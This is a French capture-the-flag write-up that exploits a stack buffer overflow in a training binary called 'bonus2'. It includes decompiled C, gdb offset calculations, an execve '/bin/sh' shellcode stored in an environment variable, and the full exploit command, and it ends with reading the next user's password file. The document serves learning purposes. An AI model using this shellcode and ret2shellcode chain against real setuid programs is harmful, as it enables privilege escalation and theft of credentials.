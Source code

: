 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2012(bonus2) gid=2012(bonus2) groups=2012(bonus2),100(users)
/home/user/bonus2
total 17
dr-xr-x---+ 1 bonus2 bonus2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus2 bonus2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus2 bonus2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus3 users  5664 Mar  6  2016 bonus2
-rw-r--r--+ 1 bonus2 bonus2   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus2 bonus2  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire `bonus2` :

```bash
$ ./bonus2
$ ./bonus2 dab
$ ./bonus2 dab itude
Hello dab
$ ./bonus2 dab itude je
```

Sans succès, je me penche dès lors sur la décompilation.

J'utilise [Dogbolt](https://dogbolt.org/?id=2e8bb7ea-1f7b-4c7b-a01b-0ff9afb4fc75#BinaryNinja=114&Reko=89&RetDec=19) afin de décompiler le binaire du `bonus2`, qui a des protections contre la décompilation, mais certains décompilateurs réussissent.

Je recoupe la sortie de `RetDec` avec l'ASM et en extrait le probable code suivant :

```c
int lang = 0;

void greetuser(char *string)
{
    char buffer[64];

    switch (lang)
    {
    case 0:
        strcpy(buffer, "Hello ");
        break;

    case 1:
        strcpy(buffer, "Hyvää päivää ");
        break;

    case 2:
        strcpy(buffer, "Goedemiddag! ");
        break;
    }

    strcat(buffer, string); // <----------------4 the new buffer of 64 appends our 72 bytes buffer so overflows, can be used to Ret2Shellcode
    puts(buffer);
}

int main(int argc, char **argv)
{
    char buffer[76]; // <-----------------------1 76 bytes buffer declared
    char *ret;

    if (argc != 3)
        return 1;

    memset(buffer, 0, 76);
    strncpy(buffer, argv[1], 40); // <----------2 filled with 40
    strncpy(buffer + 40, argv[2], 32); // <-----3 then 32 bytes (72, not overflown yet)

    ret = getenv("LANG");
    if (ret != 0)
    {
        if (memcmp(ret, "fi", 2) == 0)
            language = 1;
        else if (memcmp(ret, "nl", 2) == 0)
            language = 2;
    }
    greetuser(buffer);
}
```

En analysant le code ici, je vois un buffer, et me penche donc dessus comme source de vulnérabilité.
J'observe qu'il est d'abord `memset()` à 0 sur 76 bytes, puis se voit inséré 40 bytes du premier argument, puis 32 du second.

Il est ensuité passé à `greetuser()` qui elle va venir `strcat()` le message à notre buffer, ce qui aura pour conséquence de l'overflow.

Je vais utiliser le binaire avec la langue `nl` en changeant la variable env. `LANG` afin que l'overflow soit plus important qu'en anglais. Je commence par trouver le padding nécessaire pour que le buffer overflow et ré-écrive sur l'adresse de retour de `greetuser()` avec `gdb` :

```h
$ gdb ./bonus2 -q
Reading symbols from /home/user/bonus2/bonus2...(no debugging symbols found)...done.
(gdb) disas greetuser
Dump of assembler code for function greetuser:
    ...
   0x08048517 <+147>:   call   0x8048370 <strcat@plt>
   0x0804851c <+152>:   lea    -0x48(%ebp),%eax
   0x0804851f <+155>:   mov    %eax,(%esp)
   0x08048522 <+158>:   call   0x8048390 <puts@plt>
   0x08048527 <+163>:   leave <--------------------- breakpoint avant de leave
   0x08048528 <+164>:   ret
End of assembler dump.

(gdb) b *greetuser+163
Breakpoint 1 at 0x8048527

(gdb) r dab itude
Starting program: /home/user/bonus2/bonus2 dab itude
Hello dab

Breakpoint 1, 0x08048527 in greetuser ()

(gdb) info registers
...
esp            0xbffff600       0xbffff600
ebp            0xbffff658       0xbffff658
...
```

Puis calcule la différence : `0xbffff600 - 0xbffff658 = 0x58 = 88` bytes.

Enfin, je soustrais également le décalage dans la stack de la déclaration du buffer, que l'on voit :

```h
(gdb) disas greetuser
Dump of assembler code for function greetuser:
   0x08048484 <+0>:     push   %ebp
   0x08048485 <+1>:     mov    %esp,%ebp
   0x08048487 <+3>:     sub    $0x58,%esp
   0x0804848a <+6>:     mov    0x8049988,%eax
   0x0804848f <+11>:    cmp    $0x1,%eax
   0x08048492 <+14>:    je     0x80484ba <greetuser+54>
   0x08048494 <+16>:    cmp    $0x2,%eax
   0x08048497 <+19>:    je     0x80484e9 <greetuser+101>
   0x08048499 <+21>:    test   %eax,%eax
   0x0804849b <+23>:    jne    0x804850a <greetuser+134>
   0x0804849d <+25>:    mov    $0x8048710,%edx
   0x080484a2 <+30>:    lea    -0x48(%ebp),%eax <-------------------------- ici
```

Je soustrais donc `0x58 - 0x48 = 0x10 = 16` bytes à 88, et trouve 72 bytes avant d'atteindre `ebp`. J'en rajoute 4 et me trouve donc à l'adresse de retour de `greetuser()`.

Je dois également considérer les 13 bytes ajouté par la string en `nl`, ce qui ajoutera 13 bytes au début de mon buffer.

Le buffer compromis ressemblera donc à :

```
13 bytes du message + 40 du premier arg + 32 du second = 85 bytes
```

Je soustrais donc 9 bytes du second arg afin d'atteindre 76 bytes, soit `13 + 40 + 23 = 76`.

Je vais donc tenter de construire un payload qui permettra d'exploiter `Ret2Shellcode`, de la même manière qu'au `bonus0`.
J'utilise le même [shellcode](https://shell-storm.org/shellcode/files/shellcode-827.html) : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80` et le stocke de la même manière dans une variable env. :

```bash
$ export BYE=$'\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
```

Et emploie la même manière que `bonus0` pour trouver son adresse :

```h
$ gdb ./bonus2 -q
Reading symbols from /home/user/bonus2/bonus2...(no debugging symbols found)...done.

(gdb) b main
Breakpoint 1 at 0x804852f

(gdb) r
Starting program: /home/user/bonus2/bonus2

Breakpoint 1, 0x0804852f in main ()

(gdb) x/200s environ
0xbfffff14:      "LANG=nl"
0xbfffff1c:      "BYE=1\300Ph//shh/bin\211\343PS\211\341\260\v\315\200"
...

(gdb) x/100x 0xbfffff1c
0xbfffff1c:     0x42    0x59    0x45    0x3d    0x90    0x90    0x90    0x90
0xbfffff24:     0x90    0x31    0xc0    0x50    0x68    0x2f    0x2f    0x73 <-- début du shellcode
0xbfffff2c:     0x68    0x68    0x2f    0x62    0x69    0x6e    0x89    0xe3
0xbfffff34:     0x50    0x53    0x89    0xe1    0xb0    0x0b    0xcd    0x80
0xbfffff3c:     0x00    0x4c    0x49    0x4e    0x45    0x53    0x3d    0x35
0xbfffff44:     0x31    0x00    0x53    0x48    0x4c    0x56    0x4c    0x3d
0xbfffff4c:     0x34    0x00    0x48    0x4f    0x4d    0x45    0x3d    0x2f
0xbfffff54:     0x68    0x6f    0x6d    0x65    0x2f    0x75    0x73    0x65
0xbfffff5c:     0x72    0x2f    0x62    0x6f    0x6e    0x75    0x73    0x32
0xbfffff64:     0x00    0x4c    0x4f    0x47    0x4e    0x41    0x4d    0x45
0xbfffff6c:     0x3d    0x62    0x6f    0x6e    0x75    0x73    0x32    0x00
0xbfffff74:     0x53    0x53    0x48    0x5f    0x43    0x4f    0x4e    0x4e
0xbfffff7c:     0x45    0x43    0x54    0x49
```

Mon payload devrait donc ressembler à :

```h
"\x90" * 40 + "\x90" * 23 + "\xbf\xff\xff\x24"
^^^^^^^^^^^   ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
1er arg       2eme arg
```

Je l'essaye :

```bash
$ ./bonus2 `python -c 'print("\x90" * 40)'` `python -c 'print("\x90" * 23 + "\xbf\xff\xff\x24"[::-1])'`
Goedemiddag! ���������������������������������������������������������������$���
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$ exit
```






